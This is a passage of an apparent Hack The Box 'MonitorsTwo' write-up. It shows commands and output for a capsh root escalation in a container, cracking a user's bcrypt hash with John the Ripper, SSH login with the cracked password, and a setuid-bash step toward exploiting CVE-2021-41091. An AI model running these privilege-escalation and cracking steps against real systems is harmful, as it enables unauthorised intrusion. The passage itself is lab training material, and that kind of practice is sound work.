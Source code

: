 Getting root using `/sbin/capsh` <a href="https://gtfobins.github.io/gtfobins/capsh/">gtfobins - capsh</a>
```shell
bash-5.1$ cd /sbin
bash-5.1$ ./capsh --gid=0 --uid=0 --
whoami
root
```

Now that we got root on the docker container lets crack the local user `marcus` hashed password 
using John the Ripper! 
```shell
┌──(kali㉿rar)-[~/HTB/MonitorsTwo]
└─$ john marcus.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
funkymonkey      (?)     
1g 0:00:01:21 DONE (2023-06-27 14:43) 0.01231g/s 105.0p/s 105.0c/s 105.0C/s randyorton..coucou
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Now we can login via ssh using the creds we found `marcus:funkymonkey`

```
┌──(kali㉿rar)-[~/HTB/MonitorsTwo]
└─$ ssh marcus@10.10.11.211
```
<br>

Now we can get the user flag: 
```
marcus@monitorstwo:~$ cut -b 1-15 user.txt 
0b99c9d25593b87
```

Now we escaped the docker container and got a local user lets look for a way to get
root on the actual machine, what info do we have? we know docker is installed maybe its 
vulnerable to a local priv esc.

```
marcus@monitorstwo:~$ docker -v
Docker version 20.10.5+dfsg1, build 55c4c88
```

And indeed `Docker version 20.10.5` is vulnerable [`CVE-2021-41091`](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41091) or the docker engine(moby) is vulnerable. 

I used this PoC exploit to get root [UncleJ4ck/CVE-2021-41091](https://github.com/UncleJ4ck/CVE-2021-41091),
but first you need to run `chmod u+s /bin/bash` on the docker container and upload the exploit to the machine
we connected to via ssh

